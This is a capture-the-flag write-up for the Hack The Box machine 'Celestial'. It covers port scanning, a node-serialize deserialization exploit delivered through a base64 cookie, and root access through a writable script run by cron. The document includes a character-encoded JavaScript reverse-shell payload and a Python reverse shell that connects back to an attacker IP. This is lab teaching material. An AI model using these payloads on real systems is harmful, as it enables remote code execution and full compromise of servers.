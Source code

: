 # Celestial Write Up

> - node.js de-serialize issue lead to shell
> - crontab for root

## Enumeration

You should start off with a masscan for all 65535 ports and follow it up by nmap

```
root@kali:~/Desktop/HTB/Celestial# nmap -sS -sV -sC -p 3000 10.10.10.85      

Starting Nmap 7.60 ( https://nmap.org ) at 2018-08-25 22:22 +08
Nmap scan report for 10.10.10.85
Host is up (0.36s latency).

PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.16 seconds

```

Important information we got the scan was, port 3000 is running `node.js` 

A simple curl command return the following.

```
root@kali:~/Desktop/HTB/Celestial# curl -vvv 10.10.10.85:3000
* Rebuilt URL to: 10.10.10.85:3000/
*   Trying 10.10.10.85...
* TCP_NODELAY set
* Connected to 10.10.10.85 (10.10.10.85) port 3000 (#0)
> GET / HTTP/1.1
> Host: 10.10.10.85:3000
> User-Agent: curl/7.60.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Set-Cookie: profile=eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ%3D%3D; Max-Age=900; Path=/; Expires=Sat, 25 Aug 2018 14:38:22 GMT; HttpOnly
< Content-Type: text/html; charset=utf-8
< Content-Length: 12
< ETag: W/"c-8lfvj2TmiRRvB7K+JPws1w9h6aY"
< Date: Sat, 25 Aug 2018 14:23:22 GMT
< Connection: keep-alive
< 
* Connection #0 to host 10.10.10.85 left intact
<h1>404</h1>r
```

Note the `cookie`

```
profile=eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ%3D%3D
```

%3D decode to `=` which tell us that this is a base64 string. 

This show us that we are setting a cookie with name `profile` of the following value

```
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
```

By playing around with the json a bit, you can see that there are some errors being display.

More importantly the `node-serialize`

![errors](https://raw.githubusercontent.com/lycjackie/boot2root/master/images/celestial.png)

With some googling about nodejs serialize issue, you can find some nodejs shellcode available.

https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py

So the final payload for the cookie look something like this

```
{"rce":"_$$ND_FUNC$$_function(){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,48,46,49,52,46,49,52,52,34,59,10,80,79,82,84,61,34,52,52,51,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}
```



### Getting Root

Once you gotten a basic shell, there is a suspicious file staring at you.

```
sun@sun:~$ ls -la
ls -la
total 152
...
-rw-r--r--  1 root root   21 Aug 25 10:30 output.txt
sun@sun:~$ date
date
Sat Aug 25 10:36:10 EDT 2018
```

This particular file in sun `home` directory is owned by root and the `date` command show that the system time is only 1 min after modification of the file. Which lead me to think that there is a cronjob running as root behind.



After playing around with the home directory. You will find the following

```
sun@sun:~/Documents$ ls -la
ls -la
total 16
drwxr-xr-x  2 sun sun 4096 Mar  4 15:08 .
drwxr-xr-x 21 sun sun 4096 Aug 25 10:01 ..
-rw-rw-r--  1 sun sun   29 Sep 21  2017 script.py
-rw-rw-r--  1 sun sun   33 Sep 21  2017 user.txt
sun@sun:~/Documents$ cat script.py
cat script.py
print "Script is running..."
sun@sun:~/Documents$ cat ../output.txt
cat ../output.txt
Script is running...

```

Note that the content of `output.txt` is identical to `script.py`. Which gave the clue that that maybe root is running the script periodically.

Also note that we own the file for `script.py` which also mean that we can write anything into the file.

So using our favorite pentest monkey reverse shell for python

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.144",443))
os.dup2(s.fileno(),0) 
os.dup2(s.fileno(),1) 
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

and 5 mins of waiting. 

Tada root!

```
root@sun:~# wc -c root.txt
wc -c root.txt
33 root.txt
root@sun:~# whoami
whoami
root
root@sun:~# 
```



### FIN

After getting root. `crontab -l` show the following

```
*/5 * * * * python /home/sun/Documents/script.py > /home/sun/output.txt; cp /root/script.py /home/sun/Documents/script.py; chown sun:sun /home/sun/Documents/script.py; chattr -i /home/sun/Documents/script.py; touch -d "$(date -R -r /home/sun/Documents/user.txt)" /home/sun/Documents/script.py

```




